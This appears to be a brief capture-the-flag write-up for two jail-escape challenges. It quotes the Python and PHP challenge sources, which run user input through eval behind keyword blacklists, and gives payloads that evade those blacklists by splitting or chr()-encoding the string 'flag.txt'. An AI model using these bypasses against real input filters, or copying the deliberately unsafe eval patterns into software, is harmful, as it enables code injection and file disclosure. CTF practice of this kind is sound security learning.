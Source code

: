 # Jail 1

1.the source code 
```python
#!/usr/local/bin/python

from shell import shell

  

blacklist = ["flag", "locals", "vars", "\\", "{", "}"]

  

banner = '''

========================

=    Eevee's Jail 1    =

========================

'''

  

print(banner)

  

for _ in [shell]:

    while True:

        try:

            huh = ascii(input("[+] > "))

            if any(no in huh for no in blacklist):

                raise ValueError("[!] Mission Failed. Try again.")

            exec(eval(huh))

        except Exception as err:

            print(f"{err}")
```

2.since we cannot enter flag we just sperate it 
```
print(open('fla'+'g.txt').read())
```

![[Pasted image 20250512020327.png]]

# Jail 4

1.the source code 
```php
<?php

  

echo "========================\n";

echo "=    Eevee's Jail 4    =\n";

echo "========================\n";

  

echo "[+] > ";

$var = trim(fgets(STDIN));

  

if($var == null) die("[?] Input needed to escape this prison\n");

  

function filter($var) {

        if(preg_match('/(`|include|read|flag|open|exec|pass|system|\$)/i', $var)) {

                return false;

        }

        return true;

}

if(filter($var)) {

        eval($var);

} else {

        echo "[!] Restricted characters has been used";

}

echo "\n";

?>
```

2.there is just one eval thus we cannot separate , so i just to convert flag.txt to ascii , let us prompt gpt to help us achieve this idea . 
```
print(file_get_contents(chr(102).chr(108).chr(97).chr(103).chr(46).chr(116).chr(120).chr(116)));
```

![[Pasted image 20250512021056.png]]